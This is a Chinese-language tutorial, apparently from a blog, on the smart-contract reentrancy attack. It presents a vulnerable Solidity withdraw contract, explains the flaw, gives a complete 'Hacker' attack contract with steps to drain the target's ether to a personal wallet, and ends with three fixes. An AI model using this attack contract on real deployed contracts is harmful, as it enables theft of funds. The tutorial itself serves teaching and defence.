



# 一、重入攻击的影响
以太坊历史上影响最大的黑客攻击事件之一，the dao事件就是黑客利用漏洞进行的重入攻击，the dao事件导致the dao合约中的所有etc被盗，以太坊因此事件分叉为etc与eth
# 二、实例介绍
如下所示，Renentrace为目标合约，部署此合约后给合约中转账5eth，我们将利用重入攻击来将此合约中的eth全部取走

## 1. 目标合约
```
pragma solidity ^0.4.18;

/**
 * @title SafeMath
 * @dev Math operations with safety checks that throw on error
 */
library SafeMath {

  /**
  * @dev Multiplies two numbers, throws on overflow.
  */
  function mul(uint256 a, uint256 b) internal pure returns (uint256) {
    if (a == 0) {
      return 0;
    }
    uint256 c = a * b;
    assert(c / a == b);
    return c;
  }

  /**
  * @dev Integer division of two numbers, truncating the quotient.
  */
  function div(uint256 a, uint256 b) internal pure returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    // assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  /**
  * @dev Subtracts two numbers, throws on overflow (i.e. if subtrahend is greater than minuend).
  */
  function sub(uint256 a, uint256 b) internal pure returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  /**
  * @dev Adds two numbers, throws on overflow.
  */
  function add(uint256 a, uint256 b) internal pure returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() public payable {}
}
```

## 2.分析源码
```withdraw```函数中先判断```balances[msg.sender] >= _amount```，如果条件满足，通过```call```函数给```msg.sender```转账，转账完成后再对```balances[msg.sender]```减操作。
这里有四点组合形成一个漏洞：
1. 以```balances[msg.sender] >= _amount```为判断条件，满足则进行转账
2. 在转账时，如果收款地址是合约，则会触发该收款地址合约的```fallback```函数；而转账使用```call```函数时，默认没有```gas```限制，这样合约的```fallback```函数就会成功执行
3. 转账之后才对```balances[msg.sender]```减操作，导致可以在调用收款地址合约的```fallback```函数时，递归调用回```withdraw```函数，这时```msg.sender```虽然已经转帐一部分，但```balances[msg.sender]```的值还没有变化；这样就可以不断循环直到本合约资金全部转移到```msg.sender```；
4. 当递归转账完成后，多次执行语句```balances[msg.sender] -= _amount```进行减操作，由于转出数量实际大于用户账户余额，所以会下溢出，但不会异常，因为```solidity```是允许下溢出的，至此漏洞形成

## 3.攻击流程
### 3.1 根据漏洞编写攻击合约
```
pragma solidity ^0.5.0;
import './Reentrance.sol';

contract Reentrance {
    function donate(address _to) public payable;   
    function withdraw(uint _amount) public;
    function balanceOf(address _who) public view returns (uint balance);
}

contract Hacker {
    
    Reentrance r;
    uint public attackCount  = 0;
    
    constructor(address payable reentranceAddr) public{
        r = Reentrance(reentranceAddr);
    }
    
    function() payable external {
        attackCount++;
        uint b = address(r).balance;
        if(b>0){
            uint amount = b>r.balanceOf(address(this))?r.balanceOf(address(this)):b;
            r.withdraw(amount);
        }
    }
    
    function donate() public payable{
        r.donate.value(msg.value)(address(this));
    }
    
    function attack(uint amount) public {
        attackCount++;
        r.withdraw(amount* 1 ether);
    }
    
    function entranceBalance() public view returns(uint){
        return address(r).balance;
    }
    
    function hackBalance() public view returns(uint){
        return address(this).balance;
    }

    function kill(address payable beneficy) public {
        selfdestruct(beneficy);
    }
}
```
### 3.2 部署合约并转账5ETH

### 3.3 部署攻击合约并使用攻击合约向目标合约存钱
由于需要满足条件```balances[msg.sender] >= _amount```才能取钱，所以需要先充钱，我们调用攻击合约donate充钱1eth 使得```balances[msg.sender] >= 1 ether```

### 3.4 发动攻击
调用```attach(1)```即发起攻击，递归取钱后，发现Reentrance合约账户余额为0，攻击完成。

### 3.5 将资金转到普通账户
调用```kill(黑客个人钱包地址)```杀死攻击合约，资金将会转到黑客个人钱包地址

## 4. 如何避免
三种方法均可：
### 方法1
使用send或transfer来转账，因为send和transfer转账时使用固定gas 2300， 如果攻击合约fallback函数中有递归，则会导致fallback函数执行失败或交易结束
### 方法2
先进行余额减操作再进行转账操作
### 方法3
当上方攻击完成后，查看```balanceOf(hacker合约地址)```会发现时一个很大的数，因为负溢出了，而solidity时允许负溢出而不异常的；
所以使用 SafeMath 进行余额减操作，当递归转账完成后进行余额减操作时就会异常，交易失败。
